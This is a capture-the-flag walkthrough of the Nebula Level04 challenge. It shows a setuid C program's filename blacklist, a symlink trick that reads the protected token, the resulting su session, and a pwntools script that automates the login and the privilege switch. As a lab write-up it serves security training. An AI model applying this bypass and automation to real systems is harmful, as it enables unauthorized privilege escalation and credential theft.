 # Level04

#### Description

This level requires you to read the **token** file, but the code restricts the files that can be read. Find a way to bypass it :)

To do this level, log in as the level04 account with the password level04. Files for this level can be found in /home/flag04.

#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>

int main(int argc, char **argv, char **envp)
{
  char buf[1024];
  int fd, rc;

  if(argc == 1) {
      printf("%s [file to read]\n", argv[0]);
      exit(EXIT_FAILURE);
  }

  if(strstr(argv[1], "token") != NULL) {
      printf("You may not access '%s'\n", argv[1]);
      exit(EXIT_FAILURE);
  }

  fd = open(argv[1], O_RDONLY);
  if(fd == -1) {
      err(EXIT_FAILURE, "Unable to open %s", argv[1]);
  }

  rc = read(fd, buf, sizeof(buf));
  
  if(rc == -1) {
      err(EXIT_FAILURE, "Unable to read fd %d", fd);
  }

  write(1, buf, rc);
}
```

#### Solution

```bash
level04@nebula:/home/flag04$ ls -la
total 13
drwxr-x--- 2 flag04 level04   93 2011-11-20 21:52 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
-rw-r--r-- 1 flag04 flag04   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag04 flag04  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag04 level04 7428 2011-11-20 21:52 flag04
-rw-r--r-- 1 flag04 flag04   675 2011-05-18 02:54 .profile
-rw------- 1 flag04 flag04    37 2011-11-20 21:52 token
level04@nebula:/home/flag04$ ./flag04

./flag04 [file to read]
level04@nebula:/home/flag04$ ./flag04 token
You may not access 'token'
```

Here's what this C binary is doing:

* Checks if you passed a filename on the command line; if not, prints usage and exits.
* If the filename contains the substring `"token"`, refuses access and exits.
* Tries to open the given file for reading.
* Reads up to 1024 bytes from the file into a buffer.
* prints the file contents, up to 1024 bytes.

So, In short it uses a simple blacklist (`strstr`) that’s easy to bypass by creating a symbolic link of token file with some other file and with a different name. So, that it will bypass that token named file filter and through that symbolic link we can read content of that token file.&#x20;

```bash
level04@nebula:/home/flag04$ ln -s /home/flag04/token /tmp/file
level04@nebula:/home/flag04$ cd /tmp
level04@nebula:/tmp$ ls -la
total 0
drwxrwxrwt 6 root    root    140 2025-09-26 02:45 .
drwxr-xr-x 1 root    root    220 2025-09-26 07:09 ..
lrwxrwxrwx 1 level04 level04  18 2025-09-26 01:57 file -> /home/flag04/token
drwxrwxrwt 2 root    root     40 2025-09-26 07:09 .ICE-unix
drwxrwxrwt 2 root    root     40 2025-09-26 07:09 VMwareDnD
drwx------ 2 root    root    100 2025-09-26 07:09 vmware-root
drwxrwxrwt 2 root    root     40 2025-09-26 07:09 .X11-unix
level04@nebula:/tmp$ cd -
/home/flag04
level04@nebula:/home/flag04$ ./flag04 /tmp/file
06508b5e-8909-4f38-b630-fdb148a848a2
level04@nebula:/home/flag04$ su flag04
Password: 
sh-4.2$ id
uid=995(flag04) gid=995(flag04) groups=995(flag04)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level04', password='level04')

# Stores token file's data(password) in result variable and later assign it to password
result = session.run("/home/flag04/flag04 /tmp/file")
password = result.recvall().decode()
print(password)

# Starting of remote shell for switching user with su
terminal = session.shell()
terminal.recvuntil("$ ")
terminal.sendline("su flag04")
terminal.recvuntil("Password: ")
terminal.sendline(password)
terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>
